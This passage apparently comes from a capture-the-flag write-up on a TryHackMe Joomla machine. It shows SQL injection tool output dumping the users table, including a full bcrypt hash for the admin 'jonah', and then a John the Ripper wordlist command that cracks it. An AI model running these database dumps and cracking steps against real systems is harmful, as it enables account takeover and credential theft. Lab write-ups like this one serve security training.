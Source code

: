 ```text
[21:36:36] [INFO] retrieved: id
[21:36:37] [INFO] retrieved: name
[21:36:38] [INFO] retrieved: username
[21:36:41] [INFO] retrieved: email
[21:37:05] [INFO] retrieved: password
[21:41:57] [INFO] retrieved: params
[21:43:17] [INFO] fetching entries for table '#__users' in database 'joomla'
[21:43:17] [INFO] retrieved: 'jonah@tryhackme.com'
[21:43:17] [INFO] retrieved: '811'
[21:43:17] [INFO] retrieved: 'Super User'
[21:43:17] [INFO] retrieved: ''
[21:43:18] [INFO] retrieved: '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[21:43:18] [INFO] retrieved: 'jonah'
Database: joomla
Table: #__users
[1 entry]
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| id  | name       | email               | params  | password                                                     | username |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| 811 | Super User | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.<HIDDEN>.V.d3p12kBtZutm | jonah    |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+

[*] ending @ 21:43:18 /2021-02-22/
```

From the users table we have a Super User called jonah with a password that's been hashed. Lot's of ways to identify what type of hash has been used, often the simplest if just Google it:

![bugle-hashformat](/assets/images/2021-02-22-22-22-29.png)

We can use John The Ripper to try and crack this. Just copy the hash in to a txt file, and then point JTR at it with the rockyou wordlist:

```text
root@kali:/home/kali/thm/bugle# john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>     (?)
1g 0:00:01:33 DONE (2021-02-22 22:34) 0.01066g/s 19.58p/s 19.58c/s 19.58C/s sword..spider123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

